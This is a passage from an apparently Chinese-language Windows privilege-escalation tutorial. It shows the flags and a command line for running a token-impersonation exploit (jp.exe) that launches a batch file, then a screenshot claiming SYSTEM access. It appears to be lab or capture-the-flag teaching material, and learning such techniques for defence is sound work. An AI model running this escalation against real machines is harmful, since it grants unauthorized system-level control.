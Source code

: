 最后，可以开始利用漏洞，但请确保使用以下三个标志运行它。

```bash
-t createprocess call: <t> CreateProcessWithTokenW，<u> CreateProcessAsUser，<*> 尝试两者

-p <program>: 要启动的程序

-l <port>: COM服务器监听端口（任何端口都可以）
```



以下是运行的命令:

```
./jp.exe -t * -p C:Users\merlin\Desktop\bounty.bat -l 4444
```

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791964-30.webp)

现在已经是系统用户了

![图片](./在Windows系统下提权的8种主要姿势.assets/640-1715064791964-31.webp)

进入新的Windows shell时，确保保持始终检查特权的习惯，因为随时可能拥有可以被滥用的权限，使你能够提升到管理员或系统用户。

